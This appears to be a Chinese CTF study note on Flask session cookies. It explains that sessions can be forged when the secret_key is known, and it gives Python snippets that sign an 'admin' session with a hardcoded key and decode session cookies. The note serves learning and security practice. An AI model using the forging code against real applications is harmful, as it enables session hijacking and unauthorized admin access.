 - 存储在 cookie 中，可以伪造
- 使用secret_key签名任意对象：
	- ```python
	  from flask import Flask
	  from flask.sessions import SecureCookieSessionInterface
	  app = Flask(__name__)
	  app.secret_key = b"fb+wwn!n1yo+9c(9s6!_3o#nqm&&_ej$tez)$_ik36n8d7o6mr#y"
	  session_serializer = SecureCookieSessionInterface().get_signing_serializer(app)
	  print(session_serializer.dumps("admin"))
	  ```
- 可以用 flask-session-cookie-manager 或者 [[CTFWEB/Flask-Unsign]] 解密
- 也可以用如下代码解密
	- ```python
	  #!/usr/bin/env python3
	  import sys
	  import zlib
	  from base64 import b64decode
	  from flask.sessions import session_json_serializer
	  from itsdangerous import base64_decode
	  
	  def decryption(payload):
	      payload, sig = payload.rsplit(b'.', 1)
	      payload, timestamp = payload.rsplit(b'.', 1)
	  
	      decompress = False
	      if payload.startswith(b'.'):
	          payload = payload[1:]
	          decompress = True
	  
	      try:
	          payload = base64_decode(payload)
	      except Exception as e:
	          raise Exception('Could not base64 decode the payload because of '
	                           'an exception')
	  
	      if decompress:
	          try:
	              payload = zlib.decompress(payload)
	          except Exception as e:
	              raise Exception('Could not zlib decompress the payload before '
	                               'decoding the payload')
	  
	      return session_json_serializer.loads(payload)
	  
	  if __name__ == '__main__':
	      print(decryption(sys.argv[1].encode()))
	  ```